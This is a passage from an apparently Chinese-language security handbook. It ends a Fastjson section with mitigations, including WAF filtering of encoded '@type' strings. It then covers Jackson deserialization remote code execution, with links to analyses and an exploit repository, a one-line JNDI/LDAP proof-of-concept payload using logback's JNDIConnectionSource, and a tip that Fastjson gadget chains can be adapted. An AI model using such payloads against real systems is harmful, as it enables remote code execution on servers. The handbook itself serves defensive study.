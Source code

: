 其他消息队列之类的都是同理

**8\. 防护方法**

1\. 升级 Fastjson 到最新版 (>=1.2.68 新增了 safemode, 彻底关闭 autotype)  
2.WAF 拦截过滤请求包中的 `@type`, `%u0040%u0074%u0079%u0070%u0065`, `\u0040type`, `\x04type` 等多种编码的 autotype 变形

3\. 最少升级到 1.2.48 以上版本且关闭 autotype 选项

4\. 升级对应 JDK 版本到 8u191/7u201/6u211/11.0.1 以上

Jackson 反序列化远程代码执行漏洞
--------------------

**1\. 漏洞简介**

Jackson 跟 Fastjson 一样, 当 enableDefaultTyping 开启时, 也是可以进行反序列化到代码执行

**2\. 影响组件**  
Jackson

**3\. 漏洞指纹**

无损检测 Fastjson DoS 漏洞以及盲区分 Fastjson 与 Jackson 组件 – 斗象能力中心 (<1.2.60)  
[https://blog.riskivy.com/%e6%97%a0%e6%8d%9f%e6%a3%80%e6%b5%8bfastjson-dos%e6%bc%8f%e6%b4%9e%e4%bb%a5%e5%8f%8a%e7%9b%b2%e5%8c%ba%e5%88%86fastjson%e4%b8%8ejackson%e7%bb%84%e4%bb%b6/](https://blog.riskivy.com/%e6%97%a0%e6%8d%9f%e6%a3%80%e6%b5%8bfastjson-dos%e6%bc%8f%e6%b4%9e%e4%bb%a5%e5%8f%8a%e7%9b%b2%e5%8c%ba%e5%88%86fastjson%e4%b8%8ejackson%e7%bb%84%e4%bb%b6/)

**4\. Fofa Dork**

**5\. 漏洞分析**

跟 Fastjson 漏洞原理都是一样的, 每次修复基本都是更新黑名单, 漏洞分析可以参考

Jackson-databind-2670 远程代码执行漏洞简单分析 – 先知社区  
[https://xz.aliyun.com/t/7506](https://xz.aliyun.com/t/7506)

**6\. 漏洞利用**

learnjavabug/jackson/src/main/java/com/threedr3am/bug/jackson at master · threedr3am/learnjavabug  
[https://github.com/threedr3am/learnjavabug/tree/master/jackson/src/main/java/com/threedr3am/bug/jackson](https://github.com/threedr3am/learnjavabug/tree/master/jackson/src/main/java/com/threedr3am/bug/jackson)

POC

`["ch.qos.logback.core.db.JNDIConnectionSource", {"jndiLocation":"ldap://localhost:43658/Calc"}]`

**7\. 利用技巧**

1\. 把 Fastjson 的利用链拿过来改一改就可以用, 前提是环境中存在可用的利用链

**8\. 防护方法**

1\. 升级 Jackson 到最新版 (enableDefaultTyping 默认都是关的, 问题不大)

2\. 确保 enableDefaultTyping 是关闭的

3\. 升级对应 JDK 版本到 8u191/7u201/6u211/11.0.1 以上
